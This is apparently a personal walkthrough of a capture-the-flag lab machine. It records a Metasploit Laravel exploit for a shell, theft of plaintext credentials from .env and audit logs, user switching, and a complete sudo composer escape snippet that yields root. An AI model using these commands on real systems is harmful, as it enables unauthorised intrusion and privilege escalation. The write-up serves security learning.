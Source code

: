 ##### Metasploit Version of Exploit

- **Timestamp:** 2025-09-19 16:48
- **Action:** Using the metasploit framework to deliver a payload
- **Commands:** `msfconsole`, `search laravel`, `use 6`, various internal settings for IP and importantly the API key, `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- **Notes:**
	- Managed to get a shell.
	- Upgraded the shell
- **Next Steps:**
	- Enumeration and privesc.

##### OS Enumeration

- **Timestamp:** 2025-09-19 16:51
- **Timeline & Commands:** 
	- Laravel has info stored in `.env` file -> basically a configuration file with plaintext creds.
	- `cd /var/www/html/academy`
		- Web app folder
	- `ls -lah`
		- Shows us hidden folders, such as `.env`
	- `cat ./.env`
		- `DB_PASSWORD=mySup3rP4s5w0rd!!`
			- Previously secret of laravel dashboard.
			- Demonstrates how weak plaintext config creds are such as this.
				- **Blue team exercise:** research ways to prevent this sort of lateral move.
			- Could be a username password on system.
		- `DB_USERNAME=dev`
			- Check system for this.
	- `cat /etc/passwd`
		- Shows `/bin/sh` users on system.
		- `cat /etc/passwd | grep /bin/sh`
		- ![[academy-etc-passwd.png]]
		- *could be any of these, check all*
	- `su cry0l1t3`
		- Seems to work
	- `whoami`
	- `id`
		- `uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)`
		- Well that's certainly interesting, what is the `4(adm)` group?
	- `cat user.txt`
		- Our flag.
	- `getent group adm`
		- Shit, froze the shell. Derp.
		- `mfconsole` was a bit janky, so changed LHOST port to 4445 rather than 4444 (original).
	- Google shows `adm` group has access to log reviewing capability.
		- Checked `/var/log/syslog` -> huge amount, but accessible.
	- `cd /var/log && ls /var/log`
		- `auth` shows bootup procedures and a cron-job running.
		- `pam_unix(su:session): session opened for user cry0l1t3 by (uid=33)`
			- What is pam_unix?
			- Okay so it's basically an authentication module, the framework for linux auth/session management.
	- Time constraint, so I just used `aureport` with flags to get `tty` activity.
		- Hello, old friend `mrb3n` with password `mrb3n_Ac@d3my!`
		- `whoami` and `id` don't disclose special groups, how about sudo privileges?
			- `sudo -l`
			- `(ALL) /usr/bin/composer`
	- Went to gtfobins to exploit this binary.
		- Second from top is what we need:
```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
composer --working-dir=$TF run-script x
```
- `# cat /root/root.txt`